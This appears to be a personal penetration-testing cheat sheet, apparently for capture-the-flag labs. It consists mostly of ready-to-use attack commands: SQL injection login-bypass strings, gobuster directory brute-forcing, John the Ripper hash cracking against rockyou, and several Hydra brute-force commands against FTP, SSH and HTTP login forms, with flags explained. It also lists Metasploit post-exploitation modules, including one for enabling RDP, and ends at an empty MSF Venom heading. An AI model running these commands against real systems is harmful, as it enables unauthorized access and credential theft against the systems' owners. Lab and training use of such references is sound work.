 ```sudo -l (NOTE: lists commands a user can run as root) ```

	https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2019-0836

	https://www.rapid7.com/db/vulnerabilities/msft-cve-2019-0836

## Generate Password Hash:

```openssl passwd -1 -salt [salt] [password]```

## DIR:
```gobuster dir -u http://<ip>:3333 -w <word list location>```
        
        
## SQL Injection:

    X' or '1'='1' --

    ' or 1='1
    
## John: 

```john --format=NT --rules --pot=lab.pot --progress-every=3 --wordlist=/usr/share/wordlists/rockyou.txt lab.txt```
    
    
    
## Hydra:

```hydra -l {username} -P /usr/share/wordlists/rockyou.txt http-get://{address or ip}:{port}```

```hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ftp```

```hydra -l user -P passlist.txt ftp://192.168.0.1```

```hydra -l <username> -P <full path to pass> <ip> -t 4 ssh```

```hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.176.160 -t 4 ssh```

```hydra -l -P http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V```

```hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.176.160 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V```
    
    SECTION             FUNCTION

    hydra                   Runs the hydra tool

    -t 4                    Number of parallel connections per target

    -l [user]               Points to the user who's account you're trying to compromise

    -P [path to dictionary] Points to the file containing the list of possible passwords

    -vV                     Sets verbose mode to very verbose, shows the login+pass combination for each attempt

    [machine IP]            The IP address of the target machine

    ftp / protocol          Sets the protocol
    
## Metasploit:

```run post/multi/recon/local_exploit_suggester```
    
```run post/windows/manage/enable_rdprdp```

## MSF Venom:
```